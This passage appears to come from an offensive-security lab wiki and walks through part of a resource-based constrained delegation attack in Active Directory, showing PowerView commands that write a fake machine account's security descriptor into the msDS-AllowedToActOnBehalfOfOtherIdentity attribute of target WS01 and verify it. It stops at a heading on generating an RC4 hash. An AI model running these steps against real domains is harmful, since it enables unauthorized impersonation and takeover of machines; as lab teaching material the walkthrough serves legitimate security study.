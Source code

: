 ![](<../../.gitbook/assets/Screenshot from 2019-03-28 22-26-41.png>)

## Modifying Target Computer's AD Object

Applying the security descriptor bytes to the target `WS01` machine:

```csharp
Get-DomainComputer ws01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-38-54.png>)

Reminder - we were able to write this because `offense\Sandy` belongs to security group `offense\Operations`, which has full control over the target computer `WS01$` although the only important one/enough is the `WRITE` privilege:



![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-40-43.png>)

If our user did not have the required privileges, you could infer that from the verbose error message:

![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-43-25.png>)

Once the `msDS-AllowedToActOnBehalfOfOtherIdentitity` is set, it is visible here:

![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-42-18.png>)

Same can be seen this way:

```csharp
Get-DomainComputer ws01 -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-41-34.png>)

We can test if the security descriptor assigned to computer `ws01` in `msds-allowedtoactonbehalfofotheridentity` attribute refers to the `fake01$` machine:

```csharp
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
```

Note that the SID is referring to S-1-5-21-2552734371-813931464-1050690807-1154 which is the `fake01$` machine's SID - exactly what we want it to be:

![](<../../.gitbook/assets/Screenshot from 2019-03-28 22-24-04.png>)

## Execution

### Generating RC4 Hash
